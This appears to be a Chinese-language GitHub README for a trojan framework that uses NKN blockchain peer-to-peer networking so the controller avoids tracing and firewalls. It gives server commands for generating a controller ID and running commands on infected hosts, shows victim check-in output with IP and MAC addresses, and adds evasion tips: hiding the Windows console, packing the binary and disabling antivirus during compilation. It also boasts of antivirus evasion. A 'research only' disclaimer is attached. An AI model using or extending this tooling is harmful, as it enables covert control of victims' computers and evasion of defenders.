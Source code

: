 # Go-NKN-Trojan

一款由区块链的核心网络技术p2p实现的去中心化去C2的基础远控木马框架

## 特点

**解决木马C2服务的痛点，方法不同于域前置、白域名等手段，通信采用p2p作为通信基础架构，调用区块链NKN-SDK实现p2p通信，取消传统C2模式，控制端无需公网IP减少成本并且可以有效防止被溯源,并且可绕过云上流量防火墙管制。**

**木马通过对主机一部分硬件设备信息进行收集整合生成该设备唯一指定ID，即使主机重装操作系统也不改变控制ID，通过此ID目标主机持续对控制端进行心跳式回连保证控制端不丢失目标主机，同时防止目标主机出现意外状况再次上线后ID变化。**

**最近更新:目前会被火绒误报为挖矿病毒，通过微步沙箱检测到的外连IP，虽然没有控制端真实IP，但是程序会连接NKN主网域名。原因初步判断为检测到程序连接NKN主网域名，与挖矿病毒初步行为相似，被误报为挖矿进程**

![image-20220808085321638](https://cdn.jsdelivr.net/gh/Saber-CC/img@master/data/image-20220808085321638.png)

**免杀性能优秀**

![image-20220528183550653](https://cdn.jsdelivr.net/gh/Saber-CC/img@master/data/image-20220528183550653.png)

![image-20220528183618747](https://cdn.jsdelivr.net/gh/Saber-CC/img@master/data/image-20220528183618747.png)

## 免责声明

```
1.依据《刑法修正案（七）》第9条增订的《刑法》第285条第3款的规定，犯提供非法侵入或者控制计算机信息系罪的，处3年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处3年以上7年以下有期徒刑，并处罚金。
2.第二百八十五条第二款 违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。
3.刑法第二百五十三条之一：“国家机关或者金融、电信、交通、教育、医疗等单位的工作人员，违反国家规定，将本单位在履行职责或者提供服务过程中获得的公民个人信息，出售或者非法提供给他人，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金。情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。
```

**由于传播、利用开源信息而造成的任何直接或间接的后果及损失，均由使用者本人负责，作者不承担任何责任。**

**开源仅作为安全研究之用！切勿用作实战用途！仅限于本地复现！**

## 使用

### server

**首先需要随机生成一个64位seed，调用下列命令即可。该种子将作为的控制者的唯一标识ID，切勿丢失**

```
server.exe -g new
```

**将64位seed加载读入程序中，控制端将生成该seed的唯一控制ID，控制ID格式为monitor.xxxx....**

```
server.exe -g e6178488d64cf94703f68c57cbdd7eb634a773ba119c7646a4394bac993e47f3
```

展示结果如下

```
your controlid = monitor.8146bae11e3f976c105f7cace9a96bed0dfdb0bdec2f1a8313e46d93726a77c7
```

**启动监听后，监听中若有目标机回连将会显示目标ID，该ID固定格式为xxxx.xxxx....，并且会同时会显示目标机公网IP、内网IP、MAC地址**。展示结果如下

```
target host connect, ID: 09d3.31642085613f0c6e34dff8b9ffc5d330746cd38ddb61fa2cd4884c5f9e634a0b ,target IP address : xxx.xxx.xxx.xx|xxx.xxx.xxx.xxx|xx:xx:xx:xx:xx:xx
```

**对目标机执行命令格式为：目标机ID 命令**

```
09d3.31642085613f0c6e34dff8b9ffc5d330746cd38ddb61fa2cd4884c5f9e634a0b whoami
```

### client

**将server中生成的控制端ID写入Client Code的controlid变量，编译即可。**

## 注意事项

**由于调用NKN-SDK进行编译，所以体积较大，可以使用压缩壳缩小体积**

可能会被一些安全产品误报为挖矿病毒，火绒会对区块链相关的编译工具报毒，编译时需关闭火绒或设置信任区。

Windows、Linux皆可成功编译执行，但若Windows平台若需要取消程序弹出CMD框，需要修改command.go配置，WindowsCommand所属Exec()函数中SysProcAttr追加HideWindow: true参数，例如

```
&syscall.SysProcAttr{HideWindow: true}
```

编译参数需要追加参数

```
-ldflags "-s -w -H=windowsgui"
```

**该框架目前只编写了命令执行功能为测试可行性，其余功能可自行追加。**
